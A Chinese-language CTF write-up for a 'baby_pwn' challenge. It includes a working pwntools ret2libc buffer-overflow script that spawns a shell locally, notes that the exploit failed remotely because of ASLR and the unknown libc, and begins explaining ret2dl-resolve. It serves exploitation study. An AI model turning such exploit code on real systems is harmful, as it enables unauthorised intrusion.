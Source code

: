 一开始看到这么结构这么简单的题目，名字还叫baby_pwn,以为碰到了入门题（白眼）

决定使用Ret2LIbc直接拿shell

本地验证：（ASLR is off）

```
----------------------exp1.py----------------------------
from pwn import *
#p=remote("da61f2425ce71e72c1ef02104c3bfb69.kr-lab.com",33865)
p=process('./pwn')
libc=ELF('./libc-2.23.so')
#gdb.attach(p)

#local
libc_base=0xf7dfd000
system_off=libc.symbols['system']
execve_off=libc.symbols['execve']
shell_off=next(libc.search('/bin/sh'))
execve_addr=libc_base+execve_off
shell_address=libc_base+shell_off

payload="A"*(0x30-4)
payload+=p32(execve_addr)
payload+=p32(0)
payload+=p32(shell_address)
payload+=p32(0)
payload+=p32(0)

p=process('./pwn')
p.sendline(payload)
p.interactive()
```

本地拿到了shell，但是远程溢出失败了。

但是也是在预料之中，国赛怎么会让我这么容易拿到shell呢。

总结发现，问题在于-&gt;

```
1.本地调试是知道libc版本，远程服务器不知道libc版本
2.即使知道libc版本，能计算出execve和已知函数的偏移，服务器开着ASLR必须用rop才能计算出基地址。但是本地代码中却不存在write/puts这样的函数，却没有办法构造ROP链。
```

刚开始唯一的想法是通过爆破法，强行爆破libc的基地址。（在已知libc版本情况下比较好实现。）但是最后也没有爆破出来。#后来大佬说是爆破syscall的位置，有空去验证。

后来经过大佬指点，这种没有构造ROP链接的基础函数，虽然没有write/put函数来构造rop，但是能够通过一种叫做ret2dl-resolve的技术，来构造rop。遂去研究。



## Ret2dl_resolve解析

Ret2dl_resolve本质上也是ROP，只不过使用的是更加底层的技术：

ELF在动态链接加载的过程中有一种延迟绑定的机制，程序通过函数dl_runtime_resolve (link_map_obj, reloc_index)来进行对函数进行重定位。虽然重定位过程很复杂，但是最终还是依靠符号表来确定导入函数，如果能在这个过程中影响符号表的读取，就有可能将任意函数重定位为我们需要的函数。
